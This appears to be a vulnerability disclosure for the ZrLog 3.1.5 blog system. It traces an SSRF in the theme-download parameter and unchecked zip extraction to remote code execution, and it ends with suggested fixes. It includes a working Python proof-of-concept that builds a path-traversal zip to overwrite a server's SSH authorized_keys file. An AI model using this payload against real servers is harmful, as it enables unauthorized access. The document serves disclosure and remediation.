


# ZrLog Blog System SSRF + File Overwrite Leading to RCE Vulnerability

## System Introduction  
ZrLog is a blog program developed using Java, featuring simplicity, ease of use, modularity, and low memory consumption.  

## Vulnerability Description  
The ZrLog blog system has an SSRF + file overwrite vulnerability, which allows attackers to exploit this flaw to gain access to the target server.  


## Version
Download the latest version of ZrLog 3.1.5  
https://www.zrlog.com/

Source Code Link  
https://gitee.com/94fzb/zrlog/releases/tag/v3.1.5

## Vulnerability Details

After setting up the system, log in to the admin panel.

Location: Settings - Theme Settings - Download




Click "Preview & Download"  
You get the following data packet.  


Testing shows that the `downloadUrl` parameter does not validate its value and directly fetches remote files.  
The logic code is as follows:  
admin-web/src/main/java/com/zrlog/admin/web/controller/page/AdminTemplatePageController.java:23  


It enters the `installByUrl` function  
service/src/main/java/com/zrlog/business/plugin/TemplateDownloadPlugin.java:67  


Then it enters the `unZip` function, which does not validate the compressed file and directly extracts it.  
common/src/main/java/com/hibegin/common/util/ZipUtil.java:14  


Thus, during the automatic extraction, there is also a file overwrite vulnerability.

In the end, this leads to SSRF + file overwrite causing RCE vulnerability.

### Exploitation Example:

First, remotely fetch your crafted malicious zip file. Here's a Python script to generate a zip file that can overwrite an SSH public key (note: the `target_path` parameter might vary depending on the target's directory structure).

```py
import zipfile

def create_malicious_zip(output_file="evil21.zip", target_path="../../../../.ssh/authorized_keys"):

    with zipfile.ZipFile(output_file, 'w') as zipf:
    
        malicious_filename = target_path 
        zipf.writestr("1.txt", "HACKED: 22221111This file would overwrite system files if extracted improperly!")
        zipf.writestr(malicious_filename,
                      "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMgS+Gvk2Vz9rbLhwmCY62Ndl35q79kwfemjBMdVEHfEoWfSVsaT5vkzSV3GXaapXtFjqWEUi+AcVsJvKLmqOq+nWNjWZTg7utClDjXsiZisOdQ7snuetY912J4Y4O7OkBq4juc/LJYERa0XhQnmLaa3H2hpAY8pXc2dC+2UpS4BZhmziNBoGZuOYXSuMW0EQum8naro99TJhV1koRywINrU99YV3iBbvRmVD9G25Oq2cv/NIk0sKSCi/0rBs87PhluT8gMNEBUcN1PzT35VXwUUIrCpGZra9Z9hzrqVPBT8u4YujZn1Z1tEfgFuPswmtmVGVOWctQWc8Sh+F4Yrxid9MTiHnMcPo6zBHQkBf3uQAhtfwljrhCeXvPhjDRjZB9cunq9yHFDq1spAbApU0NVKkV9VPWOcYt6wUhtywtXp+gfkPM7Xd9eNvZqeVKKzweQehfvxyuQ4Xtg/mC6tFgw8z2T6VkbQOSKbktWUmKOMj9hC2GZg7Tve5B6ZwzQD8= root")

    print(f"[+] Malicious ZIP file created: {output_file}")
    print(f"[+] When extracted, it may write to: {target_path}")

if __name__ == "__main__":
    create_malicious_zip()
```

Modify the `downloadUrl` parameter to point to the malicious file's URL and send the data packet, as shown below:  


Successfully overwrite the SSH public key.  


Use the private key to connect to the server and successfully gain access.  


## Suggested Fixes

1. Perform whitelist validation on the `downloadUrl` parameter, e.g., `dl.zrlog.com`.
2. Validate the paths of the compressed files during extraction to filter out malicious paths, such as `../`.
